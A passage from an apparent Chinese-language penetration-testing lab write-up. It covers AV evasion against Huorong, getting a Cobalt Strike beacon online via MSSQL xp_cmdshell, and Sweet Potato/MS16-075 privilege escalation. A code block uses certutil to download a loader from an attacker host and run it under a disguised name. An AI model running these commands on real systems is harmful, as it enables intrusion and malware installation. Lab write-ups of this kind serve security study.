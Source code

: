 做一下火绒的免杀，尝试上线，使用 windows 的 certutil 命令远程下载文件

```plain
EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.8.198/loader.exe C:\Windows\Temp\schost.exe'; 
EXEC master..xp_cmdshell 'C:\Windows\Temp\schost.exe';
```

漏洞利用：

[![](assets/1705301733-3ed88f036cf6b17e1cb28fb6422caa09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140700-cccf488c-b110-1.png)

成功上线 cs

[![](assets/1705301733-9cc2e02234a97aa0a201f47fece4c2c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140711-d2f93682-b110-1.png)

如果目标机器出网，可以把木马放到自己的公网服务器上，如果目标机器不出网，只需把木马放到 12server-web1 上，供其下载

### **权限提升**

使用 MS16-075Sweet Potato 进行提权

[![](assets/1705301733-d598805cd576ac6e4379c72c97f76227.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140726-dbdace78-b110-1.png)

漏洞利用

[![](assets/1705301733-c5383b7fd47193689b57df18fda36188.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140736-e1e3090c-b110-1.png)
